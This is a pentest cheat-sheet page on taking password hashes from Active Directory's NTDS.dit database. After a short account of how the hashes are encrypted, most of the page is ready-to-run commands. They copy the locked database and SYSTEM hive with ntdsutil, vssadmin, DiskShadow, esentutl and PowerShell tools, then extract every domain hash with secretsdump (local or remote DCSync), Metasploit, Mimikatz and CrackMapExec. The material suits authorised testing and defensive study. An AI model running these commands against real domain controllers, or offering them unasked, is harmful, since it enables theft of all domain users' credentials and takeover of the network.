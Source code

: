 # NTDS.dit



The Ntds.dit file is a database that stores Active Directory data, including information about user objects, groups, and group membership. It includes the password hashes for all users in the domain.

The important NTDS.dit file will be located in: %SystemRoom%/NTDS/ntds.dit This file is a database Extensible Storage Engine \(ESE\) and is "officially" composed by 3 tables:

```text
Data Table: Contains the information about the objects (users, groups...)
Link Table: Information about the relations (member of...)
SD Table: Contains the security descriptors of each object
```

Windows uses Ntdsa.dll to interact with that file and its used by lsass.exe. Then, part of the NTDS.dit file could be located inside the lsass memory \(you can find the lastet accessed data probably because of the performance impruve by using a cache\).

## Decrypting the hashes inside NTDS.dit

You will need the following files to extract the ntds :

* NTDS.dit file
* SYSTEM hive \(C:\Windows\System32\SYSTEM\)

Usually you can find the ntds in two locations : `systemroot\NTDS\ntds.dit` and `systemroot\System32\ntds.dit`.

* `systemroot\NTDS\ntds.dit` stores the database that is in use on a domain controller. It contains the values for the domain and a replica of the values for the forest \(the Configuration container data\).
* `systemroot\System32\ntds.dit` is the distribution copy of the default directory that is used when you install Active Directory on a server running Windows Server 2003 or later to create a domain controller. Because this file is available, you can run the Active Directory Installation Wizard without having to use the server operating system CD.

However you can change the location to a custom one, you will need to query the registry to get the current location.

```text
reg query HKLM\SYSTEM\CurrentControlSet\Services\NTDS\Parameters /v "DSA Database file"
```

The hash is cyphered 3 times:

```text
Decrypt Password Encryption Key (PEK) using the BOOTKEY and RC4.
Decrypt tha hash using PEK and RC4.
Decrypt the hash using DES.
```

PEK have the same value in every domain controller, but it is cyphered inside the NTDS.dit file using the BOOTKEY of the SYSTEM file of the domain controller \(is different between domain controllers\). This is why to get the credentials from the NTDS.dit file you need the files NTDS.dit and SYSTEM \(C:\Windows\System32\config\SYSTEM\).

### Copying NTDS.dit using Ntdsutil

Available since Windows Server 2008.

```text
ntdsutil "ac i ntds" "ifm" "create full c:\copy-ntds" quit quit
ntdsutil "ac i ntds" "ifm" "create full c:\temp" q q
```

 or run ntdsutil interactivly:

```text
C:\>ntdsutil
ntdsutil: activate instance ntds
ntdsutil: ifm
ifm: create full c:\pentest
ifm: quit
ntdsutil: quit
```

### Vshadow

You could also use the volume shadow copy trick to copy the ntds.dit file. Remember that you will also need a copy of the SYSTEM file \(again, dump it from the registry or use the volume shadow copy trick\).

```text
vssadmin create shadow /for=C :
Copy Shadow_Copy_Volume_Name\windows\ntds\ntds.dit c:\ntds.dit
```

You can also use the Nishang script, available at : [https://github.com/samratashok/nishang](https://github.com/samratashok/nishang)

```text
Import-Module .\Copy-VSS.ps1
Copy-VSS
Copy-VSS -DestinationDir C:\ShadowCopy\
```

### **Using vssadmin**

```text
vssadmin create shadow /for=C:
copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\Windows\NTDS\NTDS.dit C:\ShadowCopy
copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\Windows\System32\config\SYSTEM C:\ShadowCopy
```

### **Using DiskShadow \(a Windows signed binary\)**

```text
diskshadow.txt contains :
set context persistent nowriters
add volume c: alias someAlias
create
expose %someAlias% z:
exec "cmd.exe" /c copy z:\windows\ntds\ntds.dit c:\exfil\ntds.dit
delete shadows volume %someAlias%
reset

then:
NOTE - must be executed from C:\Windows\System32
diskshadow.exe /s  c:\diskshadow.txt
dir c:\exfil
reg.exe save hklm\system c:\exfil\system.bak
```

### **Using esentutl.exe**

**​​**Copy/extract a locked file such as the AD Database

```text
esentutl.exe /y /vss c:\windows\ntds\ntds.dit /d c:\folder\ntds.dit
```

\*\*\*\*

\*\*\*\*

\*\*\*\*

### Extracting hashes from NTDS.dit

Once you have obtained the files NTDS.dit and SYSTEM you can use tools like secretsdump.py to extract the hashes:

```text
secretsdump.py -ntds ntds.dit -system SYSTEM LOCAL -outputfile credentials.txt
```

### remote NTDS.dit Dump

You can also extract them automatically using a valid domain admin user:

```text
secretsdump.py -just-dc-ntlm <DOMAIN>/<USER>@<DOMAIN_CONTROLLER>
./secretsdump.py -dc-ip IP AD\administrator@domain -use-vss -pwd-last-set -user-status 
./secretsdump.py -hashes aad3b435b51404eeaad3b435b51404ee:0f49aab58dd8fb314e268c4c6a65dfc9 -just-dc PENTESTLAB/dc\$@10.0.0.1
```

* `-pwd-last-set`: Shows pwdLastSet attribute for each NTDS.DIT account.
* `-user-status`: Display whether or not the user is disabled.

### Metasploit & Mimikatz Modules

Finally, you can also use the metasploit module:

```text
post/windows/gather/credentials/domain_hashdump
lsadump::lsa /inject

```

### PowerSploit module

```text
Invoke-NinjaCopy --path c:\windows\NTDS\ntds.dit --verbose --localdestination c:\ntds.dit
```

### CrackMapExec module

```text
cme smb 10.10.0.202 -u username -p password --ntds vss
cme smb 10.10.0.202 -u username -p password --ntds drsuapi #default
```







